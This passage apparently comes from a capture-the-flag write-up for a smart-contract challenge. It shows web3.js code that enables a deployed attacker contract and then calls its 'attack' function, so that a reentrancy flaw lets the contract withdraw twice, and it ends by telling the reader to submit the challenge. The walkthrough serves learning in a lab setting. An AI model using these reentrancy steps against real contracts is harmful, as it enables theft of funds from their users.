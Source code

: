 And enable it : 

```js
const adversarialContract = "0x023499f69eAe122cc81fFDC75818Bf317Ff2eCA9";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "enable",
    type: "function",
    inputs: [],
  },
  []
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: adversarialContract,
  data: data,
});
```

We can now start the attack that will be able to withdraw twice through the rentrency attack :

```js
const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "attack",
    type: "function",
    inputs: [],
  },
  []
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: adversarialContract,
  data: data,
});
```

You can now submit the challenge !